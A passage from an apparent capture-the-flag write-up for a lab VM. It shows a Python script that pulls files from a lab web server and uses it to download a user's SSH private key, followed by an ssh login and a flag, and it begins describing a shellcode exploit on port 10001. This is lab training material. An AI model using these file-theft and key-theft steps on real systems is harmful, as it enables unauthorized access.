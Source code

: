```python
    filename = str2bf(w)
    try:
        conn = http.client.HTTPConnection("192.168.56.101", 8080)
        conn.request("GET", filename)
        resp = conn.getresponse()
        data = resp.read().strip()
        if b"404: Not Found" in data:
            print("File {} not found".format(w))
        else:
            filename = "{}_{}.loot".format(counter, w.replace("/", "_"))
            sf(filename, data)
            print("File {} saved!!!!!!".format(w))
    except http.client.IncompleteRead:
        print("File {} returned an error (most likely it's a directory)".format(w))
        print("This request crashed the webserver so let's wait a little ....")
        sleep(30)
    finally:
        if conn:
            conn.close()
    counter += 1
```

By executing the script the server crashed at the `.ssh` entry so it must be an issue when requesting directories. But this also drove me in the right direction to try if there is an `.ssh/id_rsa` private key file present.

After modifying the script we are able to download the private key file, ssh to the server as `tyler` and get the next flag `flag{l3t_Th3_cH1P$_f4LL_wH3Re_tHey_m4y}`:

```
root@kali:~/basement# ssh -i basement_tyler.key tyler@192.168.56.101

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Dec 17 10:25:57 2016 from 192.168.56.3
well done! your flag is flag{l3t_Th3_cH1P$_f4LL_wH3Re_tHey_m4y}
Connection to 192.168.56.101 closed.
```

# robert

Robert's flag took me the most time. There is a binary running on Port 10001 requesting 10 bytes from the user and then executes them. To play with this locally I added a `portfwd` in meterpreter.

First I tried to get some custom shellcode into the 10 bytes but none of my attempts worked and this really frustrated me. So I tried to think about the program flow and how the program could be implemented and this ended up in some kind of blind shellcode crafting.
